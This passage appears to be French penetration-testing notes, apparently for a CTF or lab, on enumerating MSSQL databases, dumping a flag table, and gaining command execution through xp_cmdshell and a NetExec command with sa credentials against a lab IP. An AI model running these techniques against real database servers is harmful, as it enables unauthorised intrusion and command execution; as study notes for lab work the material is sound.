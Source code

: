 ```sql
SELECT name FROM master.dbo.sysdatabases
```

#### Switch sur une db

```sql
USE flagDB
```

#### Afficher les tables de la db

```sql
SELECT table_name FROM flagDB.INFORMATION_SCHEMA.TABLES
```

#### Afficher les données de la table

```sql
SELECT * FROM tb_flag
```

### MySQL

[[Commandes SQL#MY SQL / MARIADB]]


### GUI avec DBEAVER

https://github.com/dbeaver/dbeaver/releases

```shell-session
sudo dpkg -i dbeaver-<version>.deb
```


---

# 3. RCE

## MSSQL
#### XP_CMDSHELL (Extended Stored Procedures)

Permet d'exécuter des commandes systèmes

Depuis la db

```cmd
xp_cmdshell 'whoami'
GO
```

en remote

```bash
nxc mssql 10.10.10.59 -u sa -p 'GWE3V65#6KFH93@4GWTG2G' --local-auth -x whoami
```
